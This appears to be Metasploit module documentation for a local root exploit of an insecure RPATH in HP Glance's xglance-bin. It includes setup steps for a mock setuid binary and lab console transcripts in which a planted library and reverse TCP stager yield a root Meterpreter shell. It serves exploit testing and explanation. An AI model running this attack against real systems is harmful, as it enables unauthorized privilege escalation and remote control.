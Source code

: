 ## Vulnerable Application

This exploit takes advantage of the fact that xglance-bin, part of
HP's Glance (or Performance Monitoring) version 11'and subsequent'
, was compiled with an insecure RPATH option that attempts to load
libraries from a user controlled location (-L/lib64/).
Creating libraries in this location will result in an escalation
of privileges to root.

### Mock Application

Unfortunately the application is a pay for application and the version is many years old by the time the
PoC was released.  Instead, we use a mock binary based on the permissions noted in the original CVE
announcement, and the `ldd` details from the PoC.

The following commands were performed on Fedora 31 to create the binary.
When the binary was pushed to rhel7.1 for testing, a 'of size' libXm.so.4 was required
so ```cp /lib64/libffi.so.6 ./-L/lib64/libXm.so.4``` was enough to make the binary
vulnerable.

    ```
    sudo su
    cd ~
    dnf install motif-devel
    
    cat > main.c << DONE
    #include <stdio.h>
    #include <Xm/Xm.h>
    
    void main(){
        printf("HP xglance-bin emulator %d\n",XmVERSION);
        char* x = XmCvtXmStringToCT(NULL);
        printf("%p",x);
    }
    
    DONE
    
    
    mkdir -p ./-L/lib64;
    cd ./-L/lib64;
    ```
The follow commands copies files to the path for building.
However, they may not be installed on a default rhel system.

    ```
    # libXm.so.3 may fail on newer systems like fedora 31
    cp /usr/lib64/libXm.so.3 .;
    cp /usr/lib64/libXm.so.4 libXm.so.3;
    cp /usr/lib64/libXp.so.6 .;
    cp /usr/lib64/libXt.so.6 .;
    cd ../..;
    ```
    gcc -lXm main.c -o xglance-bin -Wl,-rpath=-L/lib64:/usr/lib64:/usr/X11R6/lib64:/opt/perf/lib64;
    mkdir -p /opt/perf/bin/;
    cp xglance-bin /opt/perf/bin/;
    chown root:bin /opt/perf/bin/xglance-bin;
    chmod 4555 /opt/perf/bin/xglance-bin;
    ```

To confirm the file is vulnerable, run:
    ```
    [fedora@fedora31 ~]$ ldd /opt/perf/bin/xglance-bin | grep -- -L/lib64/
            libXt.so.6 => -L/lib64/libXt.so.6 (0x00007f727441b000)
            libXp.so.6 => -L/lib64/libXp.so.6 (0x00007f72742b2000)
    ```
We'll want to see one or more `libX*.so*` files with `-L/lib64/`.


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a session
  4. Do: ```use exploit/linux/local/hp_xglance_priv_esc```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a root shell.
 
## Options

### COMPILE

If the .so exploit should be compiled on the system.  `gcc` is required.
More noisey, but more AV resilient. Default is `true`

## Scenarios

### Mock binary on Fedora 31 with compile

    ```
    [*] Processing xglance.rb for ERB directives.
    resource (xglance.rb)> use auxiliary/scanner/ssh/ssh_login
    resource (xglance.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (xglance.rb)> set username fedora
    username => fedora
    resource (xglance.rb)> set password fedora
    password => fedora
    resource (xglance.rb)> run
    [+] 2.2.2.2:22 - Success: 'fedora:fedora' ''
    [*] Command shell session 1 opened (1.1.1.1:34379 -> 2.2.2.2:22) at 2020-04-19 14:39:45 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    ```
    resource (xglance.rb)> use exploit/linux/local/hp_xglance_priv_esc
    resource (xglance.rb)> set session -1
    session => -1
    resource (xglance.rb)> set verbose true
    verbose => true
    resource (xglance.rb)> rexploit
    [*] Reloading module...
    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 1.1.1.1:4444
    [+] xglance-bin found, and linked to vulnerable relative path -L/lib64/ through libXt.so.6
    [*] Deleting exploit folder: /tmp/-L
    [*] Creating exploit folder: /tmp/-L/lib64/
    [+] gcc is installed
    [*] Live compiling exploit on system...
    [*] Max line length is 65537
    [*] Writing 106298 bytes in 7 chunks of 61359 bytes (octal-encoded), using printf
    [*] Next chunk is 61584 bytes
    [*] Next chunk is 60411 bytes
    [*] Next chunk is 61525 bytes
    [*] Next chunk is 61438 bytes
    [*] Next chunk is 61757 bytes
    [*] Next chunk is 30375 bytes
    [*] uploading payload
    [*] Writing '/tmp/.u4aLoiq' (207 bytes) ...
    [*] Max line length is 65537
    [*] Writing 207 bytes in 1 chunks of 630 bytes (octal-encoded), using printf
    [*] Launching xglance-bin...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (980808 bytes) to 2.2.2.2
    [*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:55298) at 2020-04-19 14:40:05 -0400
    
    meterpreter > getuid
    Server username: no-user @ fedora31 (uid=0, gid=1000, euid=0, egid=1000)
    meterpreter > shell
    Process 1699 created.
    Channel 1 created.
    whoami
    root
    ^Z
    Background channel 1? [y/N]  y
    meterpreter > sysinfo
    Computer     : 2.2.2.2
    OS           : Fedora 31 (Linux 5.3.7-301.fc31.x86_64)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    meterpreter > 
    ```

### Mock binary on rhel 7.1 no compile

    ```
    [*] Processing xglance.rb for ERB directives.
    resource (xglance.rb)> use auxiliary/scanner/ssh/ssh_login
    resource (xglance.rb)> set rhosts 192.168.2.243
    rhosts => 192.168.2.243
    resource (xglance.rb)> set username redhat
    username => redhat
    resource (xglance.rb)> set password redhat
    password => redhat
    resource (xglance.rb)> run
    [+] 192.168.2.243:22 - Success: 'redhat:redhat' ''
    [*] Command shell session 1 opened (192.168.2.128:45901 -> 192.168.2.243:22) at 2020-04-19 14:59:53 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    ```
    msf5 exploit(linux/local/hp_xglance_priv_esc) > rexploit
    [*] Reloading module...

    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 192.168.2.128:4444 
    [+] xglance-bin found, and linked to vulnerable relative path -L/lib64/ through libXm.so.4
    [*] Deleting exploit folder: /tmp/-L
    [*] Creating exploit folder: /tmp/-L/lib64/
    [*] Dropping pre-compiled exploit on system...
    [*] Writing '/tmp/-L/lib64/libXm.so.3' (368248 bytes) ...
    [*] Max line length is 65537
    [*] Writing 368248 bytes in 23 chunks of 46385 bytes (octal-encoded), using printf
    [*] Next chunk is 53790 bytes
    [*] Next chunk is 38675 bytes
    [*] Next chunk is 38759 bytes
    [*] Next chunk is 38694 bytes
    [*] Next chunk is 38757 bytes
    [*] Next chunk is 38658 bytes
    [*] Next chunk is 63466 bytes
    [*] Next chunk is 62734 bytes
    [*] Next chunk is 63857 bytes
    [*] Next chunk is 63812 bytes
    [*] Next chunk is 46324 bytes
    [*] Next chunk is 35989 bytes
    [*] Next chunk is 38405 bytes
    [*] Next chunk is 38978 bytes
    [*] Next chunk is 38950 bytes
    [*] Next chunk is 38935 bytes
    [*] Next chunk is 40042 bytes
    [*] Next chunk is 63562 bytes
    [*] Next chunk is 63562 bytes
    [*] Next chunk is 63521 bytes
    [*] Next chunk is 63618 bytes
    [*] Next chunk is 28951 bytes
    [*] uploading payload
    [*] Writing '/tmp/.u4aLoiq' (207 bytes) ...
    [*] Max line length is 65537
    [*] Writing 207 bytes in 1 chunks of 630 bytes (octal-encoded), using printf
    [*] Launching xglance-bin...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (980808 bytes) to 192.168.2.243
    [*] Meterpreter session 2 opened (192.168.2.128:4444 -> 192.168.2.243:33373) at 2020-04-19 15:09:55 -0400
    [+] Deleted /tmp/-L/lib64/libXm.so.3
    [+] Deleted /tmp/.u4aLoiq
    
    meterpreter > getuid
    Server username: no-user @ localhost.localdomain (uid=0, gid=1000, euid=0, egid=1000)
    meterpreter > sysinfo
    Computer     : localhost.localdomain
    OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-229.el7.x86_64)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    meterpreter >
    ```
